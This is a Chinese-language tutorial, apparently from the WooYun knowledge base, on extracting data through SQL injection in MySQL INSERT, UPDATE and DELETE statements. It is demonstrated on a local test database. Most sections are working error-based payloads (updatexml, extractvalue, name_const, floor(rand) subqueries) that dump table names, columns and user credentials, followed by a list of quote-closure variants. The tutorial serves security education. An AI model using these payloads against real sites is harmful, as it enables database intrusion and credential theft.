# 利用 insert，update 和 delete 注入获取数据

2014/05/27 15:05 | [luwikes](http://drops.wooyun.org/author/luwikes "由 luwikes 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [数据库安全](http://drops.wooyun.org/category/database "查看 数据库安全 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 简介

* * *

利用 SQL 注入获取数据库数据，利用的方法可以大致分为联合查询、报错、布尔盲注以及延时注入，通常这些方法都是基于 select 查询语句中的 SQL 注射点来实现的。那么，当我们发现了一个基于 insert、update、delete 语句的注射点时（比如有的网站会记录用户浏览记录，包括 referer、client_ip、user-agent 等，还有类似于用户注册、密码修改、信息删除等功能），还可以用如上方法获取我们需要的数据吗？在这里，我们以 MYSQL 的显错为例，看一下如何在 insert、update、delete 的注射点中获取我们想要的数据。

## 0x01 环境搭建

* * *

为了更好的演示注射效果，我们先利用下面的语句创建原始数据：

```
create database newdb；
use newdb;
create table users(
id int(3) not null auto_increment,
username varchar(20) not null,
password varchar(20)  not null,
primary key (id)
);
insert into users values(1,'Jane','Eyre'); 
```



看一下当前数据结构：



## 0x02 注入语法

* * *

因为我们这里是用的显错模式，所以思路就是在 insert、update、delete 语句中人为构造语法错误，利用如下语句：

```
insert into users (id, username, password) values (2,''inject here'','Olivia');
insert into users (id, username, password) values (2,""inject here"",'Olivia'); 
```



注意：大家看到本来是要填入 username 字段的地方，我们填了'inject here'和”inject here”两个字段来实现爆错，一个是单引号包含、一个是双引号包含，要根据实际的注入点灵活构造。

## 0x03 利用 updatexml()获取数据

* * *

updatexml()函数是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数。

payload：

```
or updatexml(1,concat(0x7e,(version())),0) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', 'Nervo'); 
```



Update：

```
UPDATE users SET password='Nicky' or updatexml(2,concat(0x7e,(version())),0) or''WHERE id=2 and username='Olivia'; 
```



Delete：

```
DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or''; 
```



提取数据：

由于篇幅有限，在 insert、update、delete 用法一致的时候，我会仅以 insert 为例说明。

所用的 payload 为：

```
or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or 
```

获取 newdb 数据库表名：



获取 users 表的列名：



利用 insert 获取 users 表的数据：



利用 delete 获取 users 表的数据：



我们可以用 insert、update、delete 语句获取到数据库表名、列名，但是不能用 update 获取当前表的数据：


在这里，为了演示用 update 获取数据，我们临时再创建一个含有 id，name，address 的 students 表，并插入一条数据：



再次利用 update 获取 users 表的数据：



如果你碰到一个 update 的注入并且想获取当前表的数据的话，可用用双查询，我后面会讲到。

## 0x04 利用 extractvalue()获取数据

* * *

extractvalue()函数也是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数。

payload：

```
or extractvalue(1,concat(0x7e,database())) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,database())) or'', 'Nervo'); 
```


update：

```
UPDATE users SET password='Nicky' or extractvalue(1,concat(0x7e,database())) or'' WHERE id=2 and username='Nervo'; 
```



delete：

```
DELETE FROM users WHERE id=1 or extractvalue(1,concat(0x7e,database())) or''; 
```



提取数据：

同样，在 insert、update、delete 用法一致的时候，我会仅以 insert 为例说明。

获取 newdb 数据库表名：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 1,1))) or'', 'Nervo'); 
```



获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1))) or'', 'Nervo'); 
```



获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or extractvalue(1,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM users limit 0,1))) or '', 'Nervo'); 
```



同样，我们可以用 insert、update、delete 语句获取到数据库表名、列名，但是不能用 update 获取当前表的数据。

## 0x05 利用 name_const()获取数据

* * *

name_const()函数是 MYSQL5.0.12 版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。

Payload：

```
or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '','Nervo'); 
```

update：

```
UPDATE users SET password='Nicky' or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or '' WHERE id=2 and username='Nervo'; 
```

delete：

```
DELETE FROM users WHERE id=1 or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a)or ''; 
```

提取数据：

在最新的 MYSQL 版本中，使用 name_const()函数只能提取到数据库的版本信息。但是在一些比较旧的高于 5.0.12(包括 5.0.12)的 MYSQL 版本中，可以进一步提取更多数据。在这里我使用 MySQL5.0.45 进行演示。

首先，我们做一个简单的 SELECT 查询，检查我们是否可以提取数据。

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT 2),1),name_const((SELECT 2),1))a) or '', 'Nervo'); 
```

如果显示 ERROR 1210 (HY000): Incorrect arguments to NAME_CONST，那就洗洗睡吧。。

如果显示 ERROR 1060 (42S21): Duplicate column name '2'，就可以进一步获取更多数据。



获取 newdb 数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1),name_const(( SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'users' 
```

获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1),name_const(( SELECT column_name FROM information_schema.columns WHERE table_name='users' limit 0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name 'id' 
```

获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or (SELECT*FROM(SELECT name_const((SELECT concat_ws(0x7e,id, username, password) FROM users limit 0,1),1),name_const(( SELECT concat_ws(0x7e,id, username, password) FROM users limit
0,1),1))a) or '', 'Nervo');

ERROR 1060 (42S21): Duplicate column name '1~Jane~Eyre' 
```

## 0x06 利用子查询注入

* * *

原理与 select 查询时的显错注入一致。

Insert：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or'', 'Nervo'); 
```


update：

```
UPDATE users SET password='Nicky' or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' WHERE id=2 and username='Nervo'; 
```



delete：

```
DELETE FROM users WHERE id=1 or (SELECT 1 FROM(SELECT count(*),concat((SELECT(SELECT concat(0x7e,0x27,cast(database() as char),0x27,0x7e)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a)or'' ; 
```



提取数据：

获取 newdb 数据库表名：

```
INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '','Nervo'); 
```



获取 users 表的列名：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo'); 
```



获取 users 表的数据：

```
INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat(0x7e,0x27,cast(users.username as char),0x27,0x7e) FROM `newdb`.users LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo'); 
```



## 0x07 更多闭合变种

* * *

```
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'* (payload) *'
' or (payload) and '
" – (payload) – " 
```

## 0x08 引用

* * *

http://dev.mysql.com/

http://websec.ca/kb/sql_injection

from：http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf

版权声明：未经授权禁止转载 [luwikes](http://drops.wooyun.org/author/luwikes "由 luwikes 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [False SQL Injection and Advanced Blind SQL Injection](http://drops.wooyun.org/tips/4322)
*   [使用 SQLMAP 对网站和数据库进行 SQL 注入攻击](http://drops.wooyun.org/tips/2113)
*   [CentOS 6.2 下安装基于 Suricata + Barnyard 2 + Base 的⼊侵检测系统](http://drops.wooyun.org/tips/413)
*   [Hacking Oracle with Sql Injection](http://drops.wooyun.org/tips/57)
*   [PostgreSQL 的那点事儿](http://drops.wooyun.org/tips/218)